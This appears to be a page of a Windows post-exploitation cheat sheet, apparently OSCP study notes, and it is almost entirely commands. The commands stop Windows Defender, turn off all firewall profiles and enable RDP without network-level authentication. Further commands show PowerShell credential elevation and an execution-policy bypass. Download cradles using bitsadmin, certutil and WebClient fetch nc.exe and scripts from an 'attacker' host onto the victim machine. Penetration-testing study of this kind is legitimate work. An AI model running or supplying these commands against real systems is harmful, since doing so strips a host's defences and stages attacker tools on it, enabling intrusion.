 ```cmd

# Turn firewall off and enable RDP

sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```
### Powershell sudo for Windows
```bash
$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'

powershell -ExecutionPolicy Bypass -File xyz.ps1
```
### Windows download with bitsadmin
```bash
bitsadmin /transfer mydownloadjob /download /priority normal http://<attacker>/nc.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\nc.exe

```
### Windows download with certutil.exe
```bash
certutil.exe -urlcache -split -f "http://<attacker>/Powerless.bat" Powerless.bat

```

### Creating a wget VB Script on Windows
[*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

### Windows download with powershell

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.1.111/file.exe','C:\Users\user\Desktop\file.exe')"

(New-Object System.Net.WebClient).DownloadFile("http://10.11.1.111/CLSID.list","C:\Users\Public\CLSID.list")

```
